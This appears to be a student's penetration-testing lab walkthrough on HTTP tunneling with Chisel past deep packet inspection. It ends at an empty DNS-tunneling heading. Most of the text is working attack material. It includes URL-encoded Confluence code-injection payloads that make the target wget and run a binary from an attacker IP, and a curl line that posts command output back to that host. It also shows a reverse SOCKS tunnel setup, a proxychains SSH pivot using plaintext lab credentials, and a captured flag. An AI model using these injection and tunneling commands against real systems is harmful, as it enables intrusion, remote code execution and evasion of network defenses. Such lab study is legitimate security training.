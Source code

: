 
Deep Packet Inspection (DPI) *aka* packet sniffing
- Method of examining the content of data packets as they pass by a checkpoint on the network


# HTTP Tunneling
##### Scenario:
- Have compromised CONFLUENCE01, and can execute commands via HTTP requests.
- Blocked by a considerably restrictive network configuration when trying to pivot.
- DPI is terminating all outbound traffic except HTTP
- All inbound ports on CONFLUENCE01 are blocked except TCP/8090


- Can't rely on a normal reverse shell as it would not conform to the HTTP format and would be terminated at the network perimeter by the DPI solution.
- Can't create an SSH remote port forward for the same reason.
- Only traffic that will reach our Kali machine is HTTP
	- Can, for example, make requests with _Wget_ and _cURL_.

- FIREWALL/INSPECTOR device has replaced the previous simple firewall.
- MULTISERVER03 is blocked on the WAN interface.
- Have credentials for the PGDATABASE01 server
- Need to figure out how to SSH directly there through CONFLUENCE01.
- Need a tunnel into the internal network
- Must resemble an outgoing HTTP connection from CONFLUENCE01.
- CONFLUENCE01 is Linux based (allowing us to use **chisel**)

##### Execution:
![](http-tunnel.png)
- Run [Chisel](Tools.md#chisel) server on Kali
- Accept a connection from a Chisel client running on CONFLUENCE01
- Chisel will bind a SOCKS proxy port on the Kali machine.
	- With `--reverse` options set
- The Chisel server will encapsulate whatever we send through the SOCKS port and push it through the HTTP tunnel, SSH-encrypted.
- The Chisel client will then decapsulate it and push it wherever it is addressed.

> The traffic between the Chisel client and server is all HTTP-formatted. This means we can traverse the deep packet inspection solution regardless of the contents of each HTTP packet. The Chisel server on our Kali machine will listen on TCP port 1080, a SOCKS proxy port. All traffic sent to that port will be passed back up the HTTP tunnel to the Chisel client, where it will be forwarded wherever it's addressed.

- CONFLUENCE01 - **192.168.239.63**
- PGDATABASE01 - **10.4.239.215**   `database_admin / sqlpass123`


- Copy chisel over to CONFLUENCE01
```bash
sudo cp $(which chisel) .

python3 -m http.server 80
```

- Craft CONFLUENCE01 injectable payload to download chisel and set as an executable
```bash
wget 192.168.45.166/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

- Submit payload via a a URL encoded **curl** injection
```bash
curl http://192.168.239.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.166/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

- Set up Reverse Port Forward Server on Kali
```bash
chisel server --port 8080 --reverse
	2024/06/24 21:16:49 server: Reverse tunnelling enabled
	2024/06/24 21:16:49 server: Fingerprint eqnhO59Dz8gJ4de6b2Kvvnbv1X/QhAPgs8v4PsyBhck=
	2024/06/24 21:16:49 server: Listening on http://0.0.0.0:8080
```

- Log incoming traffic
```bash
sudo tcpdump -nvvvXi tun0 tcp port 8080
	[sudo] password for kali:
	tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

- Craft an injectable payload which also redirects stdout and stderr to a file, sending it back to our Kali for debugging needs
```bash
/tmp/chisel client 192.168.45.166:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.45.166:8080/
```

- Start the Chisel client, applying the server address and the port forwarding configuration options via a URL encoded **curl** injection
```bash
curl http://192.168.239.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.166:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.45.166:8080/%27%29.start%28%29%22%29%7D/
```

- View data in **tcpdump** for any error messages
```bash
	...
	/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32` not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34` not found (required by /tmp/chisel)
	...
```
	- Points towards a version incompatibility.
	- Chisel is expecting to use glibc version 2.32 or 2.34, neither of which can be found on CONFLUENCE01.

> When a version of a tool or component is more recent than the operating system it's trying to run on, there's a risk that the operating system will not contain the required technologies that the newer tool is expecting to be able to use

- Check **chisel** version
```bash
chisel -h

  Usage: chisel [command] [--help]

  Version: 1.9.1-0kali1 (go1.21.3)
```
	- Chisel version 1.9.1
	- Written in Go version 1.21.3

> Googling reveals that similar messages appear when binaries compiled with Go versions 1.20 and later are run on operating systems that don't have a compatible version of **glibc**.

As the version which introduces this error is 1.20, we'll need to look for versions of **chisel** that are written with a previous version of Go.
Looking through the official github's releases, there's a 1.8.1 version that uses Go 1.9

- Replace with compatible version
```bash
# Download v1.8.1 (working in ~/exercises/forward_tunnel dir)
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
	...
	chisel_1.8.1_linux_amd64.gz            100%[============================================================================>]   3.33M  --.-KB/s    in 0.1s
	...

# Remove newer chisel
rm chisel

# Unzip v1.8.1
gunzip chisel_1.8.1_linux_amd64.gz

# Rename
mv chisel_1.8.1_linux_amd64 chisel

# Make executable
chmod +x chisel

# Server
python3 -m http.server 80
```

- Resubmit v1.8.1 chisel to CONFLUENCE01, store in /tmp/, and make executable
```bash
curl http://192.168.239.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.166/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

- Resubmit injectable payload, redirecting stdout and stderr to a file for debugging, starting the client, and applying the server address and the port forwarding configuration options via a URL encoded **curl** injection
```bash
curl http://192.168.239.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.166:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.45.166:8080/%27%29.start%28%29%22%29%7D/
```

If all goes well, you should see the connection back in tcpdump, the terminal w/ the chisel server running, and ss output
```bash
# Tcpdump Output
	...
	GET / HTTP/1.1
        Host: 192.168.45.166:8080
        User-Agent: Go-http-client/1.1
        Connection: Upgrade
        Sec-WebSocket-Key: 1XYYBchie98k37jAyB+/PQ==
        Sec-WebSocket-Protocol: chisel-v3
        Sec-WebSocket-Version: 13
        Upgrade: websocket
		...


# Terminal w/ chisel server
	2024/06/24 21:16:49 server: Listening on http://0.0.0.0:8080
	2024/06/24 21:52:47 server: session#1: Client version (1.8.1) differs from server version (1.9.1-0kali1)
	2024/06/24 21:52:47 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening


# ss Output
ss -ntlpu
	Netid       State        Recv-Q       Send-Q              Local Address:Port                Peer Address:Port       Process
	udp         UNCONN       0            0                     0.0.0.0:49038                    0.0.0.0:*
	tcp         LISTEN       0            4096                127.0.0.1:1080                     0.0.0.0:*           users:(("chisel",pid=8598,fd=8))
	tcp         LISTEN       0            4096                        *:8080                           *:*           users:(("chisel",pid=8598,fd=6))
```
	- SOCKS proxy port 1080 is listening on the loopback interface of our Kali machine

###### proxychains

- Edit conf file
```bash
sudo vim /etc/proxychains4.conf
	socks5 127.0.0.1 1080
```

- SSH in to PGDATABASE01
```bash
proxychains ssh database_admin@10.4.239.215
	[proxychains] config file found: /etc/proxychains4.conf
	[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
	[proxychains] DLL init: proxychains-ng 4.17
	[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.4.239.215:22  ...  OK
	...
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	Warning: Permanently added '10.4.239.215' (ED25519) to the list of known hosts.
	database_admin@10.4.239.215''s password: 
	Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-125-generic x86_64)
	...
	Last login: Thu Feb 16 21:49:42 2023 from 10.4.50.63
	database_admin@pgdatabase01:~$


cat /tmp/chisel_flag 
	OS{ceff330a45bf0b99e00bdc5fe6c28aa2}
```



# DNS Tunneling

##### Scenario: